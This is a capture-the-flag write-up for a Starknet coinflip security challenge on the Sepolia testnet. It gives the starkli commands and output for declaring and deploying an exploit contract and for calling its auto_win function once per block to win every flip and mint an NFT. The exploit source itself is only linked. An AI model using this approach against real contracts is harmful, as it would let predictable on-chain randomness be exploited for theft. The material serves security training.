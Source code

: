 Only one game can be done per block, a block is mined every 3 minutes on Sepolia. Once we successfully called our exploit contract 6 times we can verify and mint the NFT.

The exploit contract source code can be found [here](https://github.com/zmalatrax/starknet_security/blob/main/coinflip/src/coinflip_exploit.cairo).

1. Deploy the challenge:

Challenge address: 0x19b7dbc911eda575e4d9708445fcda13365df352cd361be185dacbb63893fc2

2. Craft the exploit contract:

   - Create a new scarb project: `scarb new coinflip && cd coinflip`
   - Update the `Scarb.toml` with starknet dependecies
   - Implements the exploit

3. Declare the contract:

```bash
scarb build
starkli declare --watch target/dev/coinflip_CoinFlipExploit.contract_class.json
```

Class Hash: `0x026b93f8ec1bf5933adca1d81c548ea4bf30d231bbdcc7be3e35bd2991a03300`

4. Deploy the contract:

```bash
starkli deploy --watch 0x026b93f8ec1bf5933adca1d81c548ea4bf30d231bbdcc7be3e35bd2991a03300 0x19b7dbc911eda575e4d9708445fcda13365df352cd361be185dacbb63893fc2
```

Contract address: `0x073fa90032ab768dfbd3cd78c5844121658fae2e2847cba1e2d0de6f50537655`

5. Call `auto_win()` 6 times, once per block:

   ```bash
   starkli invoke 0x073fa90032ab768dfbd3cd78c5844121658fae2e2847cba1e2d0de6f50537655 $(starkli selector auto_win)
   ```

6. Verify the solution and mint the NFT

NOTE A: Starkli declare output

```bash
Sierra compiler version not specified. Attempting to automatically decide version to use...
Network detected: sepolia. Using the default compiler version for this network: 2.4.0. Use the --compiler-version flag to choose a different version.
Declaring Cairo 1 class: 0x026b93f8ec1bf5933adca1d81c548ea4bf30d231bbdcc7be3e35bd2991a03300
Compiling Sierra class to CASM with compiler version 2.4.0...
CASM class hash: 0x005565e3607ae857bb2668ff85fd607a489ffe99535e5992b6a0ba5291c8c9c7
Contract declaration transaction: 0x0330352f82879f65a8dbebd39c7037a6aa77d9ddd4e2e1956373f3a82cd1b6e1
Waiting for transaction 0x0330352f82879f65a8dbebd39c7037a6aa77d9ddd4e2e1956373f3a82cd1b6e1 to confirm...
Transaction not confirmed yet...
Transaction not confirmed yet...
Transaction 0x0330352f82879f65a8dbebd39c7037a6aa77d9ddd4e2e1956373f3a82cd1b6e1 confirmed
Class hash declared:
0x026b93f8ec1bf5933adca1d81c548ea4bf30d231bbdcc7be3e35bd2991a03300
```

